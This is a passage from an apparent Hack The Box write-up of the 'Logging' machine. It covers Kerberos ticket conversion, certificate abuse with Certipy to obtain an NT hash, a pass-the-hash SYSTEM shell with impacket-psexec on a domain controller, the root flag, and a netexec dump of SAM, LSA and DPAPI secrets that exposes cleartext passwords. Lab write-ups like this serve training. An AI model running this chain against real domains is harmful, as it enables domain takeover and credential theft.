c4Wh7a/fjsGtEUSsfNfVvigVn+NqTkIs3UQz1v3vvUnoUlkgxspWMAT5bAujwWWhdk9HVDr1NRjUetssm2+8PCeOsCtz5i4T8jj8YIIh9Z60RnoFej4p9eVwQn6++PXvLxYg3tKyE5O4PcdLQ5wLFUerpAUGCFHTElE1k0SrlRtBQ3GipYrGRbhcs5q92Q8JRR7+Io/ayj8W9mT8w5aM8B7Go4HpMIHmoAMCAQCigd4Egdt9gdgwgdWggdIwgc8wgcygKzApoAMCARKhIgQgeZUF9LHev5wxxgBKwAZk2+GG/xejGqpNUw2XnFYvhKWhDRsLTE9HR0lORy5IVEKiGzAZoAMCAQGhEjAQGw5qYXlsZWUuY2xpZnRvbqMHAwUAYKEAAKURGA8yMDI2MDQxOTA1NDIwNVqmERgPMjAyNjA0MTkxMzQ0MTVapxEYDzIwMjYwNDI2MDM0NDE1WqgNGwtMT0dHSU5HLkhUQqkgMB6gAwIBAqEXMBUbBmtyYnRndBsLTE9HR0lORy5IVEI=
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ base64 -d jaylee.clifton.b64 > jaylee.clifton.kirbi
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ impacket-ticketConverter jaylee.clifton.kirbi jaylee.clifton.ccache
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ export KRB5CCNAME=jaylee.clifton.ccache
```

With a valid `TGT` for `JAYLEE.CLIFTON`, `Certipy` was used to enroll a `User` template certificate — a standard `Client Authentication` certificate — which allowed retrieving the account's `NTLM` hash via `PKINIT`

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ certipy-ad req -target dc01.logging.htb -dc-host dc01.logging.htb -k -no-pass -ca logging-DC01-CA -template User
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc01.logging.htb.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 12
[*] Successfully requested certificate
[*] Got certificate with UPN 'jaylee.clifton@logging.htb'
[*] Certificate object SID is 'S-1-5-21-4020823815-2796529489-1682170552-2105'
[*] Saving certificate and private key to 'jaylee.clifton.pfx'
[*] Wrote certificate and private key to 'jaylee.clifton.pfx'
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ certipy-ad auth -pfx jaylee.clifton.pfx -dc-ip 10.129.30.63
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'jaylee.clifton@logging.htb'
[*]     Security Extension SID: 'S-1-5-21-4020823815-2796529489-1682170552-2105'
[*] Using principal: 'jaylee.clifton@logging.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'jaylee.clifton.ccache'
File 'jaylee.clifton.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'jaylee.clifton.ccache'
[*] Trying to retrieve NT hash for 'jaylee.clifton'
[*] Got hash for 'jaylee.clifton@logging.htb': aad3b435b51404eeaad3b435b51404ee:1abff5519c569c11dc713706b4a15ae0
```

With the `NTLM` hash and local administrator membership, `impacket-psexec` provided a `SYSTEM` shell on `DC01`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ impacket-psexec logging.htb/jaylee.clifton@dc01.logging.htb -hashes :1abff5519c569c11dc713706b4a15ae0
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc01.logging.htb.....
[*] Found writable share ADMIN$
[*] Uploading file ECFMqIjD.exe
[*] Opening SVCManager on dc01.logging.htb.....
[*] Creating service BOje on dc01.logging.htb.....
[*] Starting service BOje.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.8644]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Running `whoami /all` confirmed `SYSTEM`-level access on the Domain Controller.

```shell
C:\Windows\system32> whoami /all
 
USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 

ERROR: Unable to get user claims information.
```

## root.txt

```shell
C:\Users\toby.brynleigh\Desktop> type root.txt
771d53b9cd89ce2a23a51b2ea2a4b041
```

## Post Exploitation

With `SYSTEM` access and `jaylee.clifton` confirmed as `Pwn3d!` via `netexec`, a comprehensive credential dump was performed including `SAM` hashes, `LSA` secrets, and `DPAPI` masterkeys. The dump also recovered the `jaylee.clifton` scheduled task credential and the cleartext `Administrator` password from a `DPAPI`-protected `TaskScheduler` credential entry.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ netexec smb dc01.logging.htb -u 'jaylee.clifton' -H 1abff5519c569c11dc713706b4a15ae0
SMB         10.129.30.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.30.63    445    DC01             [+] logging.htb\jaylee.clifton:1abff5519c569c11dc713706b4a15ae0 (Pwn3d!)
                                                                                                                                                                                                                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Logging/files]
└─$ netexec smb dc01.logging.htb -u 'jaylee.clifton' -H 1abff5519c569c11dc713706b4a15ae0 --sam --lsa --dpapi
SMB         10.129.30.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.30.63    445    DC01             [+] logging.htb\jaylee.clifton:1abff5519c569c11dc713706b4a15ae0 (Pwn3d!)
SMB         10.129.30.63    445    DC01             [*] Dumping SAM hashes
SMB         10.129.30.63    445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:a0c1d1bed9126632f5f1f2b3f790bdb5:::
SMB         10.129.30.63    445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.30.63    445    DC01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[07:51:07] ERROR    SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                                                                                                                                                                                                                                                                 regsecrets.py:436
SMB         10.129.30.63    445    DC01             [+] Added 3 SAM hashes to the database
SMB         10.129.30.63    445    DC01             [*] Dumping LSA secrets
SMB         10.129.30.63    445    DC01             logging\DC01$:aes256-cts-hmac-sha1-96:f6509821807a28f48a8701d0e2b9d87f5327387fc09ac0c132a8c39e4f13dcae
SMB         10.129.30.63    445    DC01             logging\DC01$:aes128-cts-hmac-sha1-96:eb682b0397e3d3c095b4078f6da6916d
SMB         10.129.30.63    445    DC01             logging\DC01$:des-cbc-md5:ec130dc1ec80cdd5
SMB         10.129.30.63    445    DC01             logging\DC01$:plain_password_hex:26a60fe70577c117532ad0e65980ca2beac2898f0779ffc8c706aa8d8a6ff710b7bf37caac1b9798e846b496c5aed3b5301f296b0ee6d8e84af9a08186fd0b20beb034e4064a12ad6b939744e4ceba6c717f7ae9dedca82be9be1177801128e86612104c023512fa43ae1edba75cf1a551f86b0b2eada8b9e60d86bd358a66329af33e8d882b0ceea8168b17833fe38eb6962adb88d4cd3afd3dbfc6365593d1812f69a29baba31fec3c7920d482aefb26df98b44f39838499b6516764fb52e41915c7007737fab8cb2a876c8fb908e218fb2d200a56aacd2fec4ae04712d5cd1c0112826e85394f42a0ed54b4c523ca                                                                                                                                                                                                                                                                                               
SMB         10.129.30.63    445    DC01             logging\DC01$:aad3b435b51404eeaad3b435b51404ee:b4d05e08453f856b0ff4af1125157a84:::
SMB         10.129.30.63    445    DC01             dpapi_machinekey:0x43fdff322f7aa642a9d342c4b849ead4556980a7
dpapi_userkey:0xf2846dc9a997fd873e532cd231fe369ba6306302
SMB         10.129.30.63    445    DC01             [+] Dumped 6 LSA secrets to /home/kali/.nxc/logs/lsa/DC01_10.129.30.63_2026-04-19_075103.secrets and /home/kali/.nxc/logs/lsa/DC01_10.129.30.63_2026-04-19_075103.cached
SMB         10.129.30.63    445    DC01             [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.30.63    445    DC01             [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.129.30.63    445    DC01             [+] Got 14 decrypted masterkeys. Looting secrets...
SMB         10.129.30.63    445    DC01             [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{F6E705A7-5122-460D-8164-4E4680BF2361} - logging\jaylee.clifton:wNR*k5OzdtsvD$4WG!
SMB         10.129.30.63    445    DC01             [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{101A93AC-A72F-4723-BE8C-0A5F2B88EB4D} - logging\Administrator:ParolaptController2026#
```
